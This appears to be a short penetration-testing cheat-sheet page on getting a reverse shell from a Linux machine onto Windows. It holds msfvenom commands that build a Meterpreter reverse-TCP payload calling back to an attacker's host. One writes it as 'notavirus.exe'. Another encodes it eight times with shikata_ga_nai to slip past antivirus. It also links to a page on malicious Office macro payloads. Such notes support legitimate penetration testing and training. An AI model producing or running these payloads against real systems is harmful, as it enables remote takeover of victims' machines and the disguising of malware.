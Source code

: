 
## Linux -> Windows

Establishing a shell or reverse shell connection between Linux and Windows machines can be complex due to incompatible shells and commands. However, it's possible with the right knowledge and tools. Use SSH to connect to a remote Windows machine from a Linux machine and run commands. The Windows machine needs an SSH server installed. For reverse shell connection, use Plink to initiate a connection from Windows to Linux. Alternatively, use ASPX shell with a Windows machine as an intermediary host, but this approach requires specific Windows tools and techniques and may not be reliable.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]

msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe -o notavirus.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

<font color="Green">Other Technique ---></font>  [[Macros Payloads (MS World, Excel, ...)]] (VERY GOOD)